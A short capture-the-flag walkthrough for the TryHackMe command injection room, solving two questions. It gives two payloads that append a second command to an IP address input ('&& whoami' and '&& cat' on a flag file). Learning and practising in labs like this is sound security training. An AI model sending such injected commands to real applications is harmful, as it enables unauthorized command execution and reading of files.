



--- 
draft: false
date: 2022-03-11T07:31:08+01:00
title: "Command Injection - Tryhackme"
description: "Tryhackme Walkthrough"
slug: ""
authors: ""
tags:
- Tryhackme
- Walkthrough
images:

  - url: 
    alt: 
categories: ""
externalLink: ""
series: ""
---
In this post, I'll be walking you through how to complete [Task 5](https://tryhackme.com/room/oscommandinjection) of the command injection room.

<!--more-->

### Practical: Command Injection (Deploy)



### Question1
What user is this application running as? 

payload:
```bash
IP && whoami
```



### Question2
What are the contents of the flag located in /home/tryhackme/flag.txt?

payload:
```bash
IP && cat /home/tryhackme/flag.txt
```



Go forth and become worldclass🚀